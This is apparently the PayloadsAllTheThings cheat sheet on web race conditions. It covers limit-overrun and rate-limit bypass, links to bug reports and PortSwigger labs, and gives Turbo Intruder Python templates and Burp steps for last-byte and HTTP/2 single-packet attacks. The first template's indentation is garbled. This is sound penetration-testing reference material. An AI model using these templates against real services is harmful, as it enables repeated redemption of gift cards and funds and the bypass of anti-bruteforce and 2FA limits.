 ```yaml
---
icon: file-lines
---
```


# PayloadAllTheThings - Race Conditions

## Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language.

### Summary

* Tools
* Methodology
  * Limit-overrun
  * Rate-limit Bypass
* Techniques
  * HTTP/1.1 Last-byte Synchronization
  * HTTP/2 Single-packet Attack
* Turbo Intruder
  * Example 1
  * Example 2
* Labs
* References

### Tools

* [PortSwigger/turbo-intruder](https://github.com/PortSwigger/turbo-intruder) - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.
* [JavanXD/Raceocat](https://github.com/JavanXD/Raceocat) - Make exploiting race conditions in web applications highly efficient and ease-of-use.
* [nxenon/h2spacex](https://github.com/nxenon/h2spacex) - HTTP/2 Single Packet Attack low Level Library / Tool based on Scapy‌ + Exploit Timing Attacks

### Methodology

#### Limit-overrun

Limit-overrun refers to a scenario where multiple threads or processes compete to update or access a shared resource, resulting in the resource exceeding its intended limits.

**Examples**: Overdrawing limit, multiple voting, multiple spending of a giftcard.

* [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
* [Race conditions can be used to bypass invitation limit - @franjkovic](https://hackerone.com/reports/115007)
* [Register multiple users using one invitation - @franjkovic](https://hackerone.com/reports/148609)

#### Rate-limit Bypass

Rate-limit bypass occurs when an attacker exploits the lack of proper synchronization in rate-limiting mechanisms to exceed intended request limits. Rate-limiting is designed to control the frequency of actions (e.g., API requests, login attempts), but race conditions can allow attackers to bypass these restrictions.

**Examples**: Bypassing anti-bruteforce mechanism and 2FA.

* [Instagram Password Reset Mechanism Race Condition - Laxman Muthiyah](https://youtu.be/4O9FjTMlHUM)

### Techniques

#### HTTP/1.1 Last-byte Synchronization

Send every requests except the last byte, then "release" each request by sending the last byte.

Execute a last-byte synchronization using Turbo Intruder

```py
engine.queue(request, gate='race1')
engine.queue(request, gate='race1')
engine.openGate('race1')
```

**Examples**:

* [Cracking reCAPTCHA, Turbo Intruder style - James Kettle](https://portswigger.net/research/cracking-recaptcha-turbo-intruder-style)

#### HTTP/2 Single-packet Attack

In HTTP/2 you can send multiple HTTP requests concurrently over a single connection. In the single-packet attack around \~20/30 requests will be sent and they will arrive at the same time on the server. Using a single request remove the network jitter.

* [PortSwigger/turbo-intruder/race-single-packet-attack.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py)
* Burp Suite
  * Send a request to Repeater
  * Duplicate the request 20 times (CTRL+R)
  * Create a new group and add all the requests
  * Send group in parallel (single-packet attack)

**Examples**:

* [CVE-2022-4037 - Discovering a race condition vulnerability in Gitlab with the single-packet attack - James Kettle](https://youtu.be/Y0NVIVucQNE)

### Turbo Intruder

#### Example 1

1. Send request to turbo intruder
2.  Use this python code as a payload of the turbo intruder

    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False
                            )

    for i in range(30):
        engine.queue(target.req, i)
            engine.queue(target.req, target.baseInput, gate='race1')


        engine.start(timeout=5)
    engine.openGate('race1')

        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```
3. Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4. Click "Attack"

#### Example 2

This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    '''

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30):
        engine.queue(request2, gate='race1')
    engine.openGate('race1')
    engine.complete(timeout=60)
def handleResponse(req, interesting):
    table.add(req)
```

### Labs

* [PortSwigger - Limit overrun race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)
* [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - Bypassing rate limits via race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits)
* [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - Single-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint)
* [PortSwigger - Exploiting time-sensitive vulnerabilities](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
* [PortSwigger - Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction)

### References

* [Beyond the Limit: Expanding single-packet race condition with a first sequence sync for breaking the 65,535 byte limit - @ryotkak - August 2, 2024](https://flatt.tech/research/posts/beyond-the-limit-expanding-single-packet-race-condition-with-first-sequence-sync/)
* [DEF CON 31 - Smashing the State Machine the True Potential of Web Race Conditions - James Kettle (@albinowax) - September 15, 2023](https://youtu.be/tKJzsaB1ZvI)
* [Exploiting Race Condition Vulnerabilities in Web Applications - Javan Rasokat - October 6, 2022](https://conference.hitb.org/hitbsecconf2022sin/materials/D2%20COMMSEC%20-%20Exploiting%20Race%20Condition%20Vulnerabilities%20in%20Web%20Applications%20-%20Javan%20Rasokat.pdf)
* [New techniques and tools for web race conditions - Emma Stocks - August 10, 2023](https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions)
* [Race Condition Bug In Web App: A Use Case - Mandeep Jadon - April 24, 2018](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
* [Race conditions on the web - Josip Franjkovic - July 12, 2016](https://www.josipfranjkovic.com/blog/race-conditions-on-web)
* [Smashing the state machine: the true potential of web race conditions - James Kettle (@albinowax) - August 9, 2023](https://portswigger.net/research/smashing-the-state-machine)
* [Turbo Intruder: Embracing the billion-request attack - James Kettle (@albinowax) - January 25, 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
